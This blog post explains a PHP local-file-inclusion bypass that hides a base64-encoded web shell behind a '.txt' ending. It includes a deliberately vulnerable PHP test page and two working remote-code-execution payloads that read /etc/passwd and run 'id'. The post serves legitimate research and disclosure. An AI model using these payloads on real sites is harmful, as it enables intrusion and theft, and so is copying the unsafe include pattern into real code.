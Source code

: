 ```yaml
---
id: 299
title: 'One LFI bypass to rule them all (using base64)'
date: '2023-07-20T06:51:37+00:00'
author: matan.honig2@gmail.com
guid: 'https://matan-h.com/?p=299'
permalink: /one-lfi-bypass-to-rule-them-all-using-base64/
image: /assets/images/PHP-filter-etc-passwd-example-com.png
categories:
    - cyber
tags:
    - base64
    - cyber
    - php
    - php-filter
---
```


## Backstory:

On one of the \[real world\] PHP websites, I found an [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion) \[there was a URL parameter that checked if the value ends with ‘txt’. If so, it would just display it\]. So, I reported to the site owner that I have a RCE using PHP filters (using `php://filter/convert.quoted-printable-encode/resource=data:text/plain`,`phpcode`, because HTTP was already blocked) to the owner, and he decided to just block PHP start (<?php) and end (?&gt;) tags. So now, how can I bypass this block (no file upload on this server)?

The solution according to the book is to simply use [PHP filter chain](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters). But… I don’t really like this way of exploitation – it makes the exploit very long, and it’s completely unreadable. So let’s imagine the site URL has a length filter, or it blocks the pipe char. There must be another way to do this, right?

Basically, what PHP filter chain does is to collect characters for a Base64 string ([using PHP filter group](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) called `convert.iconv`) then base64 decode it. Maybe I could just supply the base64 and then decode it, without collecting the base64 string?

For that, I need a base64 string that’s ending with ".txt". When I asked the Cyber king of misleading information, it gave me this:

![chatgpt answer: "just append .txt to the base64 encoded string"](/assets/images/chatgpt-asked-about-b64-endswith.png)

<figcaption class="caption-center">ChatGPT, when asked about creating a base64 that ends with ".txt"</figcaption>

At first glance, this seems completely unhelpful. You can’t just add ".txt" and hope it stays base64. But a little research revealed that PHP works differently.

## Update: Create test site

Let’s create our vulnerable PHP test website: (credit for the [template](https://github.com/computer-engineer/WhiteboxPentest/blob/main/Vulnerable%20Code%20Examples/php/lfi.php) to **[WhiteboxPentest](https://github.com/computer-engineer/WhiteboxPentest)** on GitHub).

[truff](https://hackerone.com/truff) from [Projet7](https://www.projet7.org/) did some research, and he found that my exploit works only with `include` or `require` and not with ``file_get_contents``. Additionally, it requires the website to be configured with `allow_url_include:On`.


```php
<body style="background-color:#82e2ff">
    <form method="GET">
        <label>Select Timezone</label>
        <select name="file">
            <option value="america.txt">America/New_York</option>
            <option value="asia.txt">Asia/Singapore</option>
        </select>
        <input type="submit" value="Display time"/>
    </form>

    <?php
    if(isset($_GET['file'])) {
        $file = $_GET['file'];

        // Check if the file starts with "http"
        if (strpos($file, "http") === 0) {
            echo "Files starting with 'http' are not allowed.";
        } else {
            if (strpos($file, "<?php") !== false || strpos($file, "?>") !== false || strpos($file, "|") !== false) {
                echo "blocked";
                echo (strpos($file, "|") !== false) ? " (php tag)" : " (pipe character)";
            } else {
                if (substr($file, -3) === "txt") {
                    include($file);
                } else {
                    echo "the file " . htmlentities($file) . " is not a txt file";
                }
            }

            echo "<br><br>the base64 decode was:<br>";
            echo htmlentities(base64_decode(explode(",", $file)[1]));
            echo "";
        }
    }
    ?>
</body>

```

You need also to [find php.ini](https://tecadmin.net/where-is-php-ini/), and change `allow_url_include` from `Off` to `On`. Now you are ready for research: You can start the server and start to explore PHP’s base64 decode filter

```bash
php -S 0.0.0.0:2000
```

Now go to <http://0.0.0.0:2000/vulnerable.php?file=php://filter/convert.base64-decode/resource=data://plain/text,SGVsbG8sIFdvcmxkLg>. (that should just output "the file … is not a txt file")

- - - - - -

Now, you can pause reading this article and try to run code yourself.

- - - - - -

### Details

PHP has a unique way of handling base64 using the `convert.base64-decode` filter. It just ignores non-base64 characters. That means that if I try to decode this base64 string:"<red>bWF0YW4ta</red><green>&&</green><red>C5j</red><green>#</green><red>b20K</red><green>….?</green><red>PHP=</red>"

the PHP will just ignore all non-base64 characters, and decode it like it was: "<red>bWF0YW4taC5jb20KPHP=</red>" (decoded to be "matan-h.com<s").

If I took a more useful example from [hacktricks](https://book.hacktricks.xyz/welcome/readme) : let’s try "<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=</red>" (which means "<?php system($\_GET\[‘cmd’\]);echo ‘Shell done !’; ?&gt;") and let’s try to make this end with ".txt" and still get a valid base64 without the dot. Turns out this is very easy : all I needed to do was to remove the padding (the `=` sign at the end) and replace it with ".txt" (you could also use other extensions such as .php, etc. as long as they can be in base64). To make the base64 more human-readable, let’s add a plus before the extension. It does not do much in the way of PHP decode base64, but if we try to decode the extension with `base64` in bash (without the "."), it will be happy. So we get the first RCE payload:

<green>?cmd=cat%20/etc/passwd&file=<darkgreen>PHP://filter/convert.base64-decode/resource=data://plain/text,<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4</red><blue>+.txt</blue></darkgreen></green>

![](/assets/images/PHP-filter-etc-passwd-example-com.png)
<figcaption class="caption-center">Screenshot of the start of /etc/passwd of that site using PHP://base64-decode filter</figcaption>
I reported this to the owner, and he decided to just block `php://` protocol (all cases).

But the LFI was also open to the data:// protocol. In normal cases, data:// is used for plain text like this: `data://text/plain,<?php phpinfo();?>`, but data:// can also be used to decode base64. Using `data://text/plain;base64`. But this time, `data:` does not ignore non-base64 characters. Are we sure we really need them?

Apparently, the server only implements the check if the file ends with "<blue>txt</blue>"(without dot). Not with "<red>.</red><blue>txt</blue>" (with dot). That means, I could just take the previous payload, remove the "." and throw this into the `data` protocol and get the second RCE payload (for some reason, I could decode this only using PHP. Python or bash \[using GNU base64\] required me to add an equal sign after the "txt" to complete the padding.):
<green>?cmd=id&file=<darkgreen>data://text/plain;base64,<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4<blue>+txt</blue></red></darkgreen></green>

![](/assets/images/data-payload-id-example-com.png)
<figcaption class="caption-center">Screenshot of the output of the command "id" of that site using the `data://` protocol</figcaption>
I didn’t find this trick on Google. So I posted it here. I hope that this post informed you


Disclaimer: This article is intended for educational and informational purposes only and should not be used for any illegal or malicious activities.
